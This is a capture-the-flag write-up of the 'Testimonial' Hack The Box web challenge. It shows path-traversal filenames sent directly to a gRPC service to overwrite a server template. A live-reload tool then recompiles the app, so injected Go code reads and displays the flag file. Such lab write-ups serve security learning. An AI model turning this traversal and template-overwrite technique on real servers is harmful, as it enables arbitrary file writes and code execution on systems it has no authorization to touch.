


# Testimonial

> As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.
>
> Files:
> - `web_testimonial.zip`
>
> Docker
> - `94.237.53.3:32885`
> - `94.237.53.3:31535`

**Writeup by:** Hein Andre Grønnestad


- [Testimonial](#testimonial)
  - [Files](#files)
  - [Wesbite](#wesbite)
  - [Service](#service)
  - [Analysing The Code](#analysing-the-code)
  - [Poking Around The Website](#poking-around-the-website)
    - [XSS](#xss)
    - [Templating Injection](#templating-injection)
  - [Protocol Buffers](#protocol-buffers)
    - [Compiling The Protocol Buffers For Python](#compiling-the-protocol-buffers-for-python)
    - [File Write PoC](#file-write-poc)
  - [`Air` - Live Reload For Go Apps](#air---live-reload-for-go-apps)
  - [Local PoC](#local-poc)
    - [Building The Docker Image](#building-the-docker-image)
  - [Remote PoC \& Flag](#remote-poc--flag)


## Files

```bash
$ ll
total 64
-rwxrwxrwx 1 hag hag  4353 Mar 13 09:14 README.md
-rwxrwxrwx 1 hag hag 56528 Mar 13 09:16 web_testimonial.zip

$ unzip web_testimonial.zip
Archive:  web_testimonial.zip
  inflating: build-docker.sh
   creating: challenge/
  inflating: challenge/go.sum
   creating: challenge/client/
  inflating: challenge/client/client.go
 extracting: challenge/.gitignore
  inflating: challenge/.air.toml
   creating: challenge/public/
   creating: challenge/public/js/
  inflating: challenge/public/js/bootstrap.min.js
   creating: challenge/public/testimonials/
  inflating: challenge/public/testimonials/2.txt
  inflating: challenge/public/testimonials/1.txt
  inflating: challenge/public/testimonials/3.txt
   creating: challenge/public/css/
  inflating: challenge/public/css/main.css
  inflating: challenge/public/css/bootstrap.min.css
   creating: challenge/view/
   creating: challenge/view/layout/
  inflating: challenge/view/layout/app.templ
   creating: challenge/view/home/
  inflating: challenge/view/home/index.templ
   creating: challenge/pb/
  inflating: challenge/pb/ptypes_grpc.pb.go
  inflating: challenge/pb/ptypes.pb.go
  inflating: challenge/pb/ptypes.proto
  inflating: challenge/grpc.go
  inflating: challenge/go.mod
   creating: challenge/handler/
  inflating: challenge/handler/shared.go
  inflating: challenge/handler/home.go
  inflating: challenge/main.go
  inflating: challenge/Makefile
   creating: challenge/tmp/
  inflating: challenge/tmp/build-errors.log
  inflating: Dockerfile
  inflating: entrypoint.sh
 extracting: flag.txt
```

## Wesbite

Ther first endpoint is a web page.


The web site lists some testimonials and allows us to write one of our own.


## Service

The other endpoint is a service that just returns `@` when connected to.

```bash
$ nc 94.237.53.3 32885
@
```


## Analysing The Code

The source code is in Go. We're dealing with gRPC and protocol buffers.

Our second endpoint is probably a gRPC service.


## Poking Around The Website


We are able to post a testimonial.


We can also browse the `public` directory.


### XSS

I don't think `XXS` is the right attack vector here, but let's just try it anyway:


No apparent `XXS` vulnerability here. Even if we can bypass the filter, we don't have a way to execute the payload as another user.


### Templating Injection

From [index.templ](challenge/view/home/index.templ):

```html
  <section class="container mt-5">
      <h2 class="text-center mb-4">What Others Say</h2>
      <div class="row">
          @Testimonials()
      </div>
  </section>
```


Not an obvious `Templating Injection` vulnerability either.


## Protocol Buffers

Maybe we can find something in the protocol buffers?


### Compiling The Protocol Buffers For Python

```bash
$ python3 -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. challenge/pb/ptypes.proto
```

Creates the following files:

- [`ptypes_pb2.py`](challenge/pb/ptypes_pb2.py)
- [`ptypes_pb2_grpc.py`](challenge/pb/ptypes_pb2_grpc.py)


### File Write PoC

My `rpc.py` script takes two arguments: `filename` and `content`. It connects to the gRPC service and sends a testimonial with the given `filename` and `content`.

```bash
python3 rpc.py "../../../../1.txt.txt" "PPPPPPPPPPPPPPPPPPPPPPPPP"
```

By running the challenge in a local docker container, we can see that the file `1.txt.txt` has been created.

```bash
/ # ls -al
total 96
drwxr-xr-x    1 root     root          4096 Mar 13 13:04 .
drwxr-xr-x    1 root     root          4096 Mar 13 13:04 ..
-rwxr-xr-x    1 root     root             0 Mar 13 11:44 .dockerenv
-rw-r--r--    1 root     root            25 Mar 13 13:04 1.txt.txt
```

This is very interesting. We can write files to the server. This works because the filtering is done in the `client.go`, but not when using the `gRPC` service directly.

From [`challenge/client/client.go`](challenge/client/client.go):

```go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

How can we use this to our advantage?


## `Air` - Live Reload For Go Apps

From `Dockerfile`:

```Dockerfile
RUN go mod download -x \
 && go install github.com/cosmtrek/air@latest \
 && go install github.com/a-h/templ/cmd/templ@latest
```

From `entrypoint.sh`:

```bash
# Start application
air
```

We can see that the website is hosted through `Air`, which is a live reload tool for Go applications. It watches for file changes and automatically restarts the server. `Air` should not be used in production, but it's very useful for development.

[https://github.com/cosmtrek/air](https://github.com/cosmtrek/air)


It's possible that we can use this to our advantage. We can write a file to the server, and then wait for `Air` to restart the server. When the server restarts, it will read the file we wrote to the server.


## Local PoC

### Building The Docker Image

```bash
$ ./build-docker.sh
Error response from daemon: No such container: web_testimonial
[+] Building 19.9s (12/12) FINISHED

# ...abbreviated

  __    _   ___
 / /\  | | | |_)
/_/--\ |_| |_| \_ v1.51.0, built with Go go1.22.1

watching .
watching client
watching handler
watching pb
watching pb/__pycache__
watching public
watching public/css
watching public/js
watching public/testimonials
!exclude tmp
watching view
watching view/home
watching view/layout
building...
(!) templ version check: generator v0.2.639 is newer than templ version v0.2.543 found in go.mod file, consider running `go get -u github.com/a-h/templ` to upgrade
(✓) Complete [ updates=2 duration=1.386781ms ]
running...
```

We can see that `Air` is watching some directories and the server is running.


We can now run the `rpc.py` script to write a file to the server. I've modified the script to take in a file name as the second argument so we can easily upload a complete file.

We know the folder structure on the server from the `Dockerfile`:

```Dockerfile
WORKDIR /challenge/
COPY ./challenge/ /challenge/
```

Let's try to modify the `app.templ` file.

From [`app-modified-title.templ`](app-modified-title.templ):

```html
<!-- ...abbreviated -->
<title>!!!!!</title>
<!-- ...abbreviated -->
```

We have changed the title of the page to `!!!!!` as a proof of concept.

Let's upload our modified version. The full path on the server should be; `/challenge/view/layout/app.templ`.

```bash
$ python3 rpc.py ../../../../../../challenge/view/layout/app.templ ../../app-modified-titl
e.templ
Testimonial submitted successfully
```

We can see that the file change has been detected by `Air`:



```
running...
view/layout/app.templ has changed
building...
(!) templ version check: generator v0.2.639 is newer than templ version v0.2.543 found in go.mod file, consider running `go get -u github.com/a-h/templ` to upgrade
(✓) Complete [ updates=2 duration=2.032748ms ]
running...
```

We can also see that the title of the page has been changed:



Now we can try to write a file to the server that will give us the flag.

From [`app-modified-flag.templ`](app-modified-flag.templ):

```
templ App(nav bool) {
	<!DOCTYPE html>
	<html lang="en">
		<head>
			<title>!!!!!</title>
			<meta charset="UTF-8"/>
			<link rel="stylesheet" href="/public/css/main.css"/>
			<link rel="stylesheet" href="/public/css/bootstrap.min.css"/>
			<script type="text/plain" src="/public/bootstrap.min.js"></script>
		</head>
		{ children... }

		{ findAndReadFlagFile() }
	</html>
}


func findAndReadFlagFile() (string, error) {
	files, err := ioutil.ReadDir("/")
	if err != nil {
		return "", err
	}

	flagFilePattern := regexp.MustCompile(`^flag[a-fA-F0-9]+\.txt$`)
	for _, file := range files {
		if flagFilePattern.MatchString(file.Name()) {
			content, err := ioutil.ReadFile(fmt.Sprintf("%s/%s", "/", file.Name()))
			if err != nil {
				return "", err
			}
			return string(content), nil
		}
	}

	return "", errors.New("No matching flag file found")
}
```

The `findAndReadFlagFile` method will read the contents of the first file that matches the pattern `flag[a-fA-F0-9]+\.txt$` in the root directory.

Adding `{ findAndReadFlagFile() }` in `templ App(nav bool)` makes sure to add the content of the flag file to the page.

Let's upload the file:

```bash
$ python3 rpc.py ../../../../../../challenge/view/layout/app.templ ../../app-modified-flag.templ
Testimonial submitted successfully
```

We can see that the file change has been detected by `Air` again:

```
building...
(!) templ version check: generator v0.2.639 is newer than templ version v0.2.543 found in go.mod file, consider running `go get -u github.com/a-h/templ` to upgrade
(✓) Complete [ updates=2 duration=1.386781ms ]
running...
view/layout/app.templ has changed
building...
(!) templ version check: generator v0.2.639 is newer than templ version v0.2.543 found in go.mod file, consider running `go get -u github.com/a-h/templ` to upgrade
(✓) Complete [ updates=2 duration=2.032748ms ]
running...
view/layout/app.templ has changed
building...
(!) templ version check: generator v0.2.639 is newer than templ version v0.2.543 found in go.mod file, consider running `go get -u github.com/a-h/templ` to upgrade
(✓) Complete [ updates=2 duration=1.943531ms ]
running...
```

Let's refresh the page:


We can see the local fake flag! 🚩🥳


## Remote PoC & Flag

Let's try our PoC on the remote server.


```
HTB{w34kly_t35t3d_t3mplate5}
```

Success! 🚩🥳
